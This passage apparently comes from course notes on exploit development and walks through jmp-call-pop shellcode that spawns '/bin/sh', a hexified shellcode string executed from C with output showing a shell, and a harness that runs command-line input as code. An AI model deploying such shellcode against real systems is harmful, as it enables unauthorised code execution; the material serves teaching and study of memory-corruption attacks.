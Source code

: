 ``` asm
    mov eax,1       ; System call number for exit
    int 0x80        ; Interrupt 80 hex - invoke system call

callback:
    call dowork    ; call pushes the next address onto stack,
               ; which is address of "/bin/sh" 
    db "/bin/sh",0 ;
```

The first thing that happens in `_start` is we jump to the `callback`
tag, which in terns call's the `dowork`. That might seem like a lot of
indirection, but from that indirection we gain the reference to the
string "/bin/sh".

Why? A call command not only jumps to the reference indicated, but it
will also push onto the stack the return address. The return address is
the *next* address to execute, which in the case above is address of the
data command for "/bin/sh" ... exactly what we need. At `dowork` we can
pop the return address off the stack, i.e., the address of the string
"/bin/sh" and use that address. In particular, we save that address in
the `esi` register.

Now, we can hexify and insert that code into C and see if that works:

``` c
int main(){

  char * code = "\x6a\x00\x68\xa8\x90\x04\x08\xba\x00\x00"
    "\x00\x00\x89\xe1\xbb\xa8\x90\x04\x08\xb8"
    "\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00"
    "\x00\xb8\x01\x00\x00\x00\xcd\x80";


  //cast pointer to function pointer and call
  ((void(*)(void)) code)();

}
```

``` example
user@si485H-base:demo$ gcc execve_jmpcall.c -o execve_jmpcall
user@si485H-base:demo$ ./execve_jmpcall
$ 
```

And now we are in business ... sort of.

## Null Bytes are the ENEMY

The next challenge is using our shell code through an exploit. We won't
do that exactly, but we can simulate what that might be like with this
simple program:

``` c
#include <string.h>

int main(int argc, char *argv[]){

  char code[1024];

  strncpy(code,argv[1],1024);

  //cast pointer to function pointer and call
  ((void(*)(void)) code)();

}
```
